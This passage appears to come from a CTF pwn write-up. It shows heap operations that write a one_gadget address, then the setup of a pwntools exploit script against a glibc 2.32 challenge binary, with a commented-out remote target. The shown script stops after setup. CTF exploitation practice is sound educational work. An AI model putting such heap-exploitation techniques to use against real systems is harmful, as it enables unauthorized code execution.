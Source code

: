 ```plain
add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)
```

[![](assets/1701612290-23b04f28e54feab5076d59be3bbb9e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145809-cad51796-2213-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=process(['ld-2.32.so',"./pwn"],env={"LD_PRELOAD":'./libc-2.32.so'})
#p=remote('node3.anna.nssctf.cn',28438)
elf = ELF('./pwn')
libc=ELF('./libc-2.32.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


```